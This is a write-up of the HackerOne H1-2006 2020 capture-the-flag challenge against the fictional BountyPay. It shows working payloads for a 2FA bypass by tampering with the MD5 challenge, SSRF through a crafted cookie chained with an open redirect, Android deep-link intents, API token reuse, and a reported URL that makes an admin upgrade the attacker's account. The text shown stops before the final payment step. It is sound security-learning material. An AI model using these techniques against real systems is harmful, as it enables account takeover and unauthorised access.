# H1-2006 2020 CTF Writeup
In anticipation for it's upcoming live hacking event H1-2006 with PayPal, Hackerone hosted a CTF with a simple rule:
- The best 3 reports that meet our requirements will win an invite to HackerOne's h1-2006 live hacking event

Main subject was :   
>CEO @martenmickos needs to approve May bug bounty payments but he has lost his login details for BountyPay.   
>Can you help retrieve them or make the payments for us ?

### Summary :
After several hours, i was able to retrieve the login details of @martenmickos account to process bounty payments. Here i will detail each step that i took to solve the CTF.  
To begin, we have a wildcard ***.bountypay.h1ctf.com**, after 2FA bypass, we get access to the **app** application which lead to SSRF via redirect function on restricted **software** application which allows us to get our hands on an APK, after a few hours of investigation, we retrieve a token in order to be able to request the API.  
Via account leakage, we now have an account on the **staff** application. We can now abuse of javascript function that are reflected on avatar profile to gain access to Admin dashboard in order to retrieve Marten Mickos account credentials.  
Last step was to bypass a 2FA identity validation thanks to a CSS exfiltration in order to proceed the bounty payments.

### Recon 
The CTF begins with a tweet:



Going to the H1 CTF program page https://hackerone.com/h1-ctf, we have a wildcard in scope : ***.bountypay.h1ctf.com**  
Perform initial reconnaissance, i retrieve few suddomains thanks to FFUF :  
<pre>>   - www                     [Status: 200, Size: 2148, Words: 426, Lines: 49]
>   - api                     [Status: 200, Size: 995, Words: 139, Lines: 23]
>   - app                     [Status: 200, Size: 1491, Words: 368, Lines: 35]
>   - staff                   [Status: 302, Size: 0, Words: 1, Lines: 1]
>   - software                [Status: 401, Size: 208, Words: 15, Lines: 7]
</pre>
As we can see, we only have **software** subdomain with 401 Unauthorized response with : "You do not have permission to access this server **from your IP Address**"   
  
So i ran a port scan, subdomains match only one IP address : 3.21.98.146, we can retrieve 22, 80 and 443 ports. 

## OSINT 
We have as information :
> CEO @martenmickos needs to approve May bug bounty payments but he has lost his login details for BountyPay.

With the BountyPay name, we can do a research on this company.
We find a Twitter account linked to BountyPay: https://twitter.com/BountypayHQ   
On this account, we can see Sandra Allison's profile in the subscriptions https://twitter.com/SandraA76708114, who announces that she just made her first day at BountyPay. And she was so excited that she posted a photo of her staff badge, which unfortunately contains an identification code : ```STF:8FJ3KFISL3```  




## Initial enumeration 
##### staff.bountypay.h1ctf.com
302 Redirect response to /?template=login
##### api.bountypay.h1ctf.com
On index page, we have access to **/redirect?url=** functionnality  
I found the endpoint /api/staff but it requires a token
##### software.bountypay.h1ctf.com
401 Unauthorized response with :   
"You do not have permission to access this server **from your IP Address**"
##### app.bountypay.h1ctf.com
I found **/.git/config** file with **https://github.com/bounty-pay-code/request-logger.git** link.  
Inside this repository, i came across a file **logger.php** 
```
<?php
$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);

file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```
Okk, retrieve **bp_web_trace.log** on the root server : https://app.bountypay.h1ctf.com/bp_web_trace.log
```
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```
After decoding the base64 encoded log, the user **brian.oliver** credentials are leaked as well as a 2FA challenge answer.
```
{
  "IP": "192.168.1.1",
  "URI": "\/",
  "METHOD": "POST",
  "PARAMS": {
    "GET": [],
    "POST": {
      "username": "brian.oliver",
      "password": "V7h0inzX",
      "challenge_answer": "bD83Jk27dQ"
    }
  }
}
{
  "IP": "192.168.1.1",
  "URI": "\/statements",
  "METHOD": "GET",
  "PARAMS": {
    "GET": {
      "month": "04",
      "year": "2020"
    },
    "POST": []
  }
}
```
Hell Yeah, we now have an attack vector ! 

## Leaked credentials and 2FA Bypass leading to account takeover
After you get your hands on the credentials, I tried to log on to the connection interface but was confronted to the 2FA check, which required a challenge code received by SMS.  
By inspecting the request and response, it seems that a ```challenge``` and a ```challenge_answer``` parameter is sent with the credentials in order to a successfull connection.  
As we can see in request below, ```challenge``` parameter is a 32 length alpha numeric hash, I'm assuming it's MD5 hash.  
After that, I managed to understand that the ```challenge``` parameter is the MD5 hashed value of the ```challenge_answer```, and it's a bad way to do a 2FA validation.  
Moreover, the ```challenge``` value is not properly saved by backend, so it's then possible to edit it on my side before sending it to the server in order to bypass the 2FA validation.  

##### Steps to reproduce
1 - Generate a MD5 hash from a random string or with leaked challenge_answer
```
$ echo -n bD83Jk27dQ | md5sum
5828c689761cce705a1c84d9b1a1ed5e  -
```
2 - Intercept 2FA validation request and replace with above ```challenge``` and ```challenge_answer``` value :
```
username=brian.oliver&password=V7h0inzX&challenge=5828c689761cce705a1c84d9b1a1ed5e&challenge_answer=bD83Jk27dQ
```
3 - 2FA bypassed, i'm now logged in as ```brian.oliver```, a ```token``` cookie is provided.
By inspecting the assigned token, it's a JSON object which contains ```account_id``` and ```hash```
```
echo eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9 | base64 -d | jq                            
{
  "account_id": "F8gHiqSdpK",
  "hash": "de235bffd23df6995ad4e0930baac1a2"
}
```
4 - Analysis of JavaScript functions : ```/js/app.js```  
Dashboard allows the users to retrieve statements related to their payments for the selected month/year by clicking in the ```Load Transactions``` button.  
An Ajax call is sent to the ```/statements?month=<month>&year=<year>``` endpoint.
```
$(".loadTxns").click(function(){
    let t=$('select[name="month"]').val(),e=$('select[name="year"]').val();
    $(".txn-panel").html(""),$.get("/statements?month="+t+"&year="+e,function(t)
```
We got another endpoint too, about payment : 
```
<a href="/pay/'+s.id+"/"+s.hash+'" class="btn btn-sm btn-success">Pay</a>
```

## SSRF by exploiting the account_id parameter reflected in the cookie 
By sending request to load transactions, I understood that a request is issued to the remote API hosted on https://api.bountypay.h1ctf.com.  
This JSON request's response is constructed with ```url``` and ```data``` :  
```
{
    "url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK\/statements?month=01&year=2020",
    "data":"{\"description\":\"Transactions for 2020-01\",\"transactions\":[]}"
}
```
Ok, ```month```, ```year``` and ```account_id```  are reflected in the JSON response.  
By manipulating the ```account_id```, it's possible to modify the request path which is sending to the API.  
Now i'm able to scan internal services only accessible from the internal network in order to retrieve informations.  

##### Steps to reproduce
1 - I have to use ```#``` characters in order to comment the given parameters.
```
{   
    "account_id": "../../#",
    "hash": "de235bffd23df6995ad4e0930baac1a2"
} 
```
Got a response with API index page! It's works!
```
{
    "url": "https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/#\/statements?month=04&year=2020",
    "data": "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"utf-8\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <title>BountyPay | Login<\/title>\n    <link href=\"\/css\/bootstrap.min.css\" rel=\"stylesheet\">\n<\/head>\n<body>\n<div class=\"container\">\n    <div class=\"row\">\n        <div class=\"col-sm-6 col-sm-offset-3\">\n            <div class=\"text-center\" style=\"margin-top:30px\"><\/div>\n            <h1 class=\"text-center\">BountyPay API<\/h1>\n            <p style=\"text-align: justify\">Our BountyPay API controls all of our services in one place. We use a <a href=\"\/redirect?url=https:\/\/www.google.com\/search?q=REST+API\">REST API<\/a> with JSON output. If you are interested in using this API please contact your account manager.<\/p>\n        <\/div>\n    <\/div>\n<\/div>\n<script src=\"\/js\/jquery.min.js\"><\/script>\n<script src=\"\/js\/bootstrap.min.js\"><\/script>\n<\/body>\n<\/html>"}
```
   
2 - Access to **software** application.  
So now remember, the **api** application serves an endpoint which allows to redirect to another url, based on a whitelist.  
**An attack vector appears!**  
it's possible to chain the API open-redirect function with a SSRF in order to interact with other hosts. In this case, the only endpoint we don't have access to is ```software.bountypay.h1ctf.com``` which are only accessible from internally.  
By querying the **software** endpoint, we got access to another login interface:
```
{                                                                                                                                                                                             
  "account_id":"F8gHiqSdpK/../../../redirect?url=https://software.bountypay.h1ctf.com/#",
  "hash":"de235bffd23df6995ad4e0930baac1a2"}
} 
```
Then now, we have to enumerate this endpoint to retrieve available directories.  
In order to automate this workflow, i wrote an one-liner bash :
```
for word in $(cat quickhits.txt); do echo -n "{\"account_id\":\"../../redirect/?url=https://software.bountypay.h1ctf.com$word/#\",\"hash\":\"de235bffd23df6995ad4e0930baac1a2\"}" >> custom_quick.txt | base64 -w0 >> b64_payloads.txt ; echo ' '  >>   b64_payloads.txt ; done
```

Then I run Burp Intruder with the generated wordlist : 



We found a directory listing **/uploads** which was not accessible from outside the internal network but the APK file can be retrieve from the internet : https://software.bountypay.h1ctf.com/uploads/BountyPay.apk

As i'm new on android analysis, i watched @NahamSec Twitch stream last time on Android part.  
Downloaded the APK file and installed it on Genymotion !

## Android Analysis 
Yeah! I'm super motivated to learn about android analysis.  
After a few minutes, I had managed to set up an Android 6 emulation on Genymotion.  

I started by decompiling the APK using the jadx tool and i used ADB binary available in Genymotion.



Reading AndroidManifest.xml, the application is divided into 3 Activities and the goal is to get to the Congrats page.  

#### PartOneActivity Analysis
Thanks to Jadx tool, i retrieve Java class in order to begin my analysis.  
I quickly understand that each activity need to be chained together.  
With a specific intent and an Android deeplink, i'm able to launch the ```PartTwoActivity```, in fact, after creating a username, i can send an android deeplink with the parameter ```start``` which needs to be equal to ```PartTwoActivity```.  
  
Here is the interesting functionnality :
```
if (getIntent() != null && getIntent().getData() != null && (firstParam = getIntent().getData().getQueryParameter("start")) != null && firstParam.equals("PartTwoActivity") && settings.contains("USERNAME")) {
            String user = settings.getString("USERNAME", "");
            SharedPreferences.Editor editor = settings.edit();
            String twitterhandle = settings.getString("TWITTERHANDLE", "");
            editor.putString("PARTONE", "COMPLETE").apply();
            logFlagFound(user, twitterhandle);
            startActivity(new Intent(this, PartTwoActivity.class));
        }
```

My final payload is : 
```
./adb shell am start -a "android.intent.action.VIEW" -c "android.intent.category.BROWSABLE"  -d "one://part/?start=PartTwoActivity"
```

#### PartTwoActivity Analysis
We come up on a PartTwoActivity page, blank as before. So this time, we have some hidden widget on the page.
By analyzing the code, we see that it is possible to make them visible.
  
Here is the interesting functionnality :
```
if (getIntent() != null && getIntent().getData() != null) {
            Uri data = getIntent().getData();
            String firstParam = data.getQueryParameter("two");
            String secondParam = data.getQueryParameter("switch");
            if (firstParam != null && firstParam.equals("light") && secondParam != null && secondParam.equals("on")) {
                editText.setVisibility(0);
                button.setVisibility(0);
                textview.setVisibility(0);
            }
        }
```
My payload to get them visible : 
```
./adb shell am start -a "android.intent.action.VIEW" -c "android.intent.category.BROWSABLE"  -d "two://part/?two=light\&switch=on"
```
Okk so after sending the intent to the activity, i get a new view page, which contains a form input and a random string:  



As we can see below, I have to enter the correct header value, header value is taken from the firebase database and is stored at the node ```header```
```
import com.google.firebase.analytics.FirebaseAnalytics;
import com.google.firebase.database.DataSnapshot;
import com.google.firebase.database.DatabaseError;
import com.google.firebase.database.DatabaseReference;
import com.google.firebase.database.FirebaseDatabase;
...
public void onDataChange(DataSnapshot dataSnapshot) {
                SharedPreferences settings = PartTwoActivity.this.getSharedPreferences(PartTwoActivity.KEY_USERNAME, 0);
                SharedPreferences.Editor editor = settings.edit();
                String str = post;
                if (str.equals("X-" + ((String) dataSnapshot.getValue()))) {
                    PartTwoActivity.this.logFlagFound(settings.getString("USERNAME", ""), settings.getString("TWITTERHANDLE", ""));
                    editor.putString("PARTTWO", "COMPLETE").apply();
                    PartTwoActivity.this.correctHeader();
                    return;
                }
                Toast.makeText(PartTwoActivity.this, "Try again! :D", 0).show();
            }
```

After watching @B3nac videos on Firebase database information disclosure, I was able to retrieve the firebase database url stored in ```res/values/strings.xml``` file.  
```
<string name="firebase_database_url">https://bountypay-90f64.firebaseio.com</string>

$ curl https://bountypay-90f64.firebaseio.com/header.json
"Token"
```
We have now to fill the form with "X-Token" in order to launch the third activity.

#### PartThreeActivity Analysis
We come up on a PartThreeActivity page, blank as before.   
We're facing the same kind of problem, but this time with a little obfuscation on parameters.

Here is the interesting functionnality :
```
if (getIntent() != null && getIntent().getData() != null) {
            Uri data = getIntent().getData();
            final String firstParam = data.getQueryParameter("three");
            final String secondParam = data.getQueryParameter("switch");
            final String thirdParam = data.getQueryParameter("header");
            byte[] decodeFirstParam = Base64.decode(firstParam, 0);
            byte[] decodeSecondParam = Base64.decode(secondParam, 0);
            final String decodedFirstParam = new String(decodeFirstParam, StandardCharsets.UTF_8);
            final String decodedSecondParam = new String(decodeSecondParam, StandardCharsets.UTF_8);
            this.childRefThree.addListenerForSingleValueEvent(new ValueEventListener() {
                /* class bounty.pay.PartThreeActivity.AnonymousClass5 */

                @Override // com.google.firebase.database.ValueEventListener
                public void onDataChange(DataSnapshot dataSnapshot) {
                    String str;
                    String value = (String) dataSnapshot.getValue();
                    if (firstParam != null && decodedFirstParam.equals("PartThreeActivity") && secondParam != null && decodedSecondParam.equals("on") && (str = thirdParam) != null) {
                        if (str.equals("X-" + value)) {
                            editText.setVisibility(0);
                            button.setVisibility(0);
                            PartThreeActivity.this.thread.start();
                        }
                    }
                }
```
My payload to get them visible : 
```
./adb shell am start -a "android.intent.action.VIEW" -c "android.intent.category.BROWSABLE"  -d "three://part/?three=UGFydFRocmVlQWN0aXZpdHk=\&switch=b24=\&header=X-Token"
```

Once the app is started through the android deeplink with the correct parameters, the submission form will now be plainly visible.  
A good way when you're making analysis on APK, it's to monitore the application log, the token used to connect to ```api.bountypay.h1ctf.com``` is leaked through insecure logging. We can also find this token later in the ```shared_pref``` directory.  
```
06-10 20:36:44.083  2469  2976 D HOST IS: : http://api.bountypay.h1ctf.com
06-10 20:36:44.083  2469  2976 D TOKEN IS: : 8e9998ee3137ca9ade8f372739f062c1
06-10 20:36:44.083  2469  2976 D HEADER VALUE AND HASH : X-Token: 8e9998ee3137ca9ade8f372739f062c1
```

After submitting the token on the form, the Congrats Activity appear !



## Leaked authentication Token Reuse on api.bountypay.h1ctf.com
Leaked authentication Token Reuse is possible on ```api.bountypay.h1ctf.com```. Until now, we've had a 401 status code on ```/api/staff```, this path required this very specific header that we just leaked to authorize authentication.  
  
Requesting ```https://api.bountypay.h1ctf.com/api/staff``` with the Token allows to retrieve several PII information of staff members.  



After struggling for a few minutes trying to insert the IDs or username in the path using the GET method, i tried to convert my request using the POST method.  



As the answer was in JSON format, I spent a lot of time trying to send queries in JSON format but it always returned the same error: ```"Missing Parameter"```.  
I then decided to change the format and send my parameters as in a classic form encoded payload ```application/x-www-form-urlencoded```, it responded with ```"Staff Member already has an account"``` when I was using an existing ```staff_id``` and ```"Invalid Staff ID"``` when I was trying to post a nonexistent ```staff_id```.  
  
I remembered that this ```staff_id``` parameter is in the same format as on the badge photography found on Sandra Twitter profile.  
The response was very interesting because it returned the login credentials of sandra's account.  Hell YeaH!



We have now an account on **staff** application ! 

## Staff dashboard access
After gaining access to ```sandra.allison``` account on ```staff.bountypay.h1ctf.com```, i can access to few views :
 - /?template=ticket&ticket_id=3582 : Ticket system communicating between Admins and staff members.  
 - /?template=admin : which is forbidden  
 
From the ticketing system, i tried some IDOR but everything is OK.

The staff dashboard contains several tab:
- Home : Home page of the staff dashboard, which informs us that we can receive messages from the admins  
- Support Tickets : Tickets messages from the admins
- Profile : Which allow the user to change it's profile data, ```Profile Name``` and ```Avatar```, tried few XSS payload in profile name but payload was filtered.  


Another feature accessible is the ability for a staff member to report a specific page on the panel. This report will be sent to admins, and thus may show up on their part of the site.  
The report url is send like this way : 
```
https://staff.bountypay.h1ctf.com/admin/report?url=<b64_encoded_path>
```

By inspecting my Burp history, i can see a JavaScript file ```/js/website.js``` which contains interestings functions and several JavaScript Event listeners : 
```
$(".upgradeToAdmin").click(function(){
    let t=$('input[name="username"]').val();
    $.get("/admin/upgrade?username="+t,function(){
        alert("User Upgraded to Admin")
    }
    )
}
),$(".tab").click(function(){
    return $(".tab").removeClass("active"),$(this).addClass("active"),$("div.content").addClass("hidden"),$("div.content-"+$(this).attr("data-target")).removeClass("hidden"),!1
}
),$(".sendReport").click(function(){
    $.get("/admin/report?url="+url,function(){
        alert("Report sent to admin team")
    }
    ),$("#myModal").modal("hide")
}
),document.location.hash.length>0&&("#tab1"===document.location.hash&&$(".tab1").trigger("click"),"#tab2"===document.location.hash&&$(".tab2").trigger("click"),"#tab3"===document.location.hash&&$(".tab3").trigger("click"),"#tab4"===document.location.hash&&$(".tab4").trigger("click"));
```

**Yeah ! An attack vector appears !**  
An attack scenario comes to my mind using these 2 interestings functions which can be combined to lead to privileges escalation to Admin profile.  
The only limitation here is that the ```upgradeToAdmin``` function can only be accessed by admins.

At this point, i focused myself on avatar profile which are reflected to ticketing system, which would allow me to interact with an admin.  
I tried changing avatar to anything and saw it reflected back on the page as a HTML class attribute, ok.  
So now, i tried to put ```upgradeToAdmin``` in the avatar, which resulted in a blank page in place of the image.   
```
profile_name=sandra&profile_avatar=upgradeToAdmin
```

From that moment, each page containing my avatar, triggered a query to ```/admin/upgrade?username=undefined``` but from my side and without the expected username...  



I got the first flaw in order to exploit a successfull privileges escalation to Admin profile, in fact, allowing the user to change his avatar name and have it reflected in a html class attribute.  
But that's not all, thanks to the jQuery selector defined in /js/website.js, we can also inject several class attributes, which allows us by adding an anchor like #tab1, #tab2 or #tab3 to trigger the click event on every class attribute.  

Ok, we now have a way to automate the query to **/admin/upgrade?username=** just by displaying a page where my avatar is present.  
I now have to set my username correctly in the request, i remember that in the login page, my username is reflected, which would allow me to retrieve it by playing with the different templates.  
By manipulating the templates, I am able to have a template containing my username and a template containing my avatar.
```
/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab3
```



Just report this **path** and it's win ! 
```
https://staff.bountypay.h1ctf.com/admin/report?url=Lz90ZW1wbGF0ZVtdPWxvZ2luJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyI3RhYjM=
```

After sending the report, the Admin triggered the payload and i get access to Admin dashboard ! 
I can now retrieve **marten.mickos** account credentials!  




## Credentials spraying 
After retrieving **marten.mickos** account credentials, we can try spraying them on every login interface on the scope perimeter.  
It's only valid on **app.bountypay.com**, after login on, same 2FA bypassed page shows up, same workflow to be able to connect to the **app** application.  

On the initial CTF tweet from HackerOne, we need to make payments for the 05/2020.



After submit Pay Action, another 2FA identity validation pops up !  
The implementation seemed to be correctly done this time!  

